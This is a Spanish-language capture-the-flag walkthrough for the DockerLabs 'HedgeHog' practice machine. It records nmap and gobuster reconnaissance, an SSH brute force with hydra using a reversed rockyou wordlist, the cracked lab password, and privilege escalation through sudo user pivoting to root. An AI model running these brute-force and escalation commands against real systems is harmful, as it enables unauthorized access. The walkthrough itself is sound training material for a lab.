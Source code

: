 plataforma: https://dockerlabs.es/#/
Mirror: https://mega.nz/file/ic9VwYZJ#Hr1BjW2axoSRmUYbxhldmTNiYtBV9TQU83JDJPpoYww
Nombre: HedgeHog
Dificultad: muy fácil
Creador: AnkbNikas

Tools:
[[Docker]]
[[Ping]]
[[NMAP]]
[[Gobuster]]
[[Puerto 22 SSH - SFTP (TCP)]]


Mirror image:
![[Dockerlabs -HedgeHog -  Mirror image.png]]


# Despliegue:
```sh fold:"Deploy injection machine"
sudo bash autodeploy.sh hedgehog.tar
```

![[Dockerlabs - HedgeHog - Reconocimiento.png]]
# Reconocimiento

## Ping:

```sh fold:"Deploy injection machine"
ping -c1 172.17.0.2
```

![[Dockerlabs - HedgeHog - Ping.png]]

TRL: 64 --> Linux

## lanzamos un nmap:

```sh fold:"Reconocimiento con nmap"
sudo nmap -sS -p- -sC -sV -Pn 172.17.0.2
```

![[Dockerlabs - HedgeHog - nmap result.png]]

Puertos abiertos
22 --> SSH
80 --> HHP

entramos en el navegador con el puerto 80 y vemos si encontramos alguna web interesante:
![[Dockerlabs -HedgeHog - WebSite.png]]

solo encontramos una palabra, que puede ser **nombre de usuario**

revisamos el código fuente por si encontramos algo:
![[Dockerlabs - hedgeHog - Web codigo fuente.png]]
Pero no damos con nada interesante

Intentamos sacar rutas con gobuster
```sh fold:"Reconocimiento con gobuster"
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://172.17.0.2 --add-slash
```

![[Dockerlabs - HedgeHog - Gobuster result.png]]
# Explotación / intrusión
lanzamos un hydra con el usuario que vimos en la web: tails
```sh fold:"hydra fuerta bruta al ssh con usuario tails"
hydra -l tails -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

![[Dockerlabs - HedgeHog -Rockyou normal.png]]
pero no encontramos nada, al ver el nombre del usuario tails: se nos ocurre invertir el rockyou
que básicamente consiste en poner el rockyou al revés y eliminar los espacios
comandos para invertir el rockyou:

```sh fold:"Invertir el rockyou"
# invertimos
tac rockyou.txt >> rockyouinvertido.txt
# eliminamos los espacios
sed -i 's/ //g' rockyouinvertido.txt 
```

Volvemos a lanzar hydra con el rockyou invertido:
```sh fold:"hydra fuerta bruta al ssh con usuario tails"
hydra -l tails -P /usr/share/wordlists/rockyouinvertido.txt ssh://172.17.0.2
```

![[Dockerlabs - HedgeHog - Hydra result.png]]

Datos obtenidos:
Usuario: tails
Password: 3117548331

Conectamos por SSH

```sh fold:"SSH connection"
ssh tails@172.17.0.2   
```
![[Dockerlabs - HedgeHog - SSH connection.png]]
# Escalada de privilegios

```sh fold:"whoami and sudo -l"
whoami
sudo -l
```

![[Dockerlabs - HedgeHog -whoami - sudo -l.png]]

vemos que no hay nada para escalar pero encontramos un usuario sonic

pivoteamos con el usuario sonic:
sudo -u sonic /bin/bash
![[Dockerlabs - HedgeHog -User pivoting - sonic.png]]

Volvemos a pivotar  ahora sobre el usuario root:
![[Dockerlabs - HedgeHog -User pivoting - root.png]]
